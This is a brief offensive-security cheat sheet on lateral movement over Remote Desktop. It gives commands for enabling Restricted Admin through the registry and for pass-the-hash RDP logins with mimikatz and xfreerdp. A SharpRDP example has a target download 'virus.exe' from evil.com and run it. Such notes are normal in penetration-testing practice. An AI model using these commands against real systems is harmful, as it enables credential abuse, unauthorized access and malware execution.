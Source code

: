 # Remote desktop

## Windows RDP

{% hint style="info" %}
/admin allows to not disconnect connected user
{% endhint %}

```csharp
 mstsc.exe /admin
```

### Restricted Admin

Allow to use the current user credentials session to make a network connection without entering a password.

#### Enable Restricted admin

```csharp
New-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Lsa" -Name DisableRestrictedAdmin -Value 0
```

```csharp
 mstsc.exe /restrictedadmin 
```

### Using mimikatz

```csharp
sekurlsa::pth /user:admin /domain:domain /ntlm:<NTLM HASH> /run:"mstsc.exe /restrictedadmin"
```

## SharpRDP

### RDP in console

```csharp
SharpRDP.exe computername=target command=notepad username=domain\user password=password!
```

#### Remote code Execution

```text
sharprdp.exe computername=target command="powershell (New-Object
System.Net.WebClient).DownloadFile('http://evil.com/virus.exe',
'C:\Windows\Tasks\virus.exe'); C:\Windows\Tasks\virus.exe" username=domain\user password=password!
```



## Linux RDP

### xfreerdp

```csharp
xfreerdp /d:domain  /u:user  /pth:NTLM_HASH  /v:DEST_IP
```

#### Local machine

```csharp
proxychains  xfreerdp   /u:b3v1l /p:Password!  /v:172.16.1.16
```

### rdesktop

```csharp
rdesktop DEST_IP   -u Domain\User -p Password
```

